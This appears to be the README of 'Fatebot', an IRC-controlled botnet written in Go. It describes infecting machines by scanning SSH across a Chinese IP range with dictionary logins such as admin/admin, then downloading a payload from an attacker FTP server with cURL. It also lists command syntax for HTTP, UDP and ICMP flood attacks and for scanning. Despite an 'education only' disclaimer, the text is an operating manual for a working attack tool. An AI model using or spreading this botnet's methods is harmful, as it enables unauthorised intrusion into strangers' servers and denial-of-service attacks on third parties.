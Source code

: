 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot
This is my first IRC bot for launch ddos attack, Write on Go language. For education purpose only. Please test it on your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="img/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "admin". <strong>(Scan by range of CHN network. You can add more if you want.)</strong>

This botnet use cURL to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<img src="img/scanprocess.png" alt="SSH scan">


# DDoS
Raw socket programming is really hard for me, And i don't know how to get a permission for run payload.
That's why <strong>The volumetric</strong> all of them are a simple udp and icmp flood. so DDoS function is really hard and challenge for me.

<img src="img/udptraffic.png" alt="udp flood, dos example">

# IRC Commands
<ul>
  <li><strong>?http [url]</li></strong>
    <ul>
      <li>?http https://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?fate [url]</li></strong>
    <ul>
      <li>?fate https://target.com</li>
      - Use all DDoS function to attack target.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with cURL.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Remove payload on bot machine and left the server.
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>

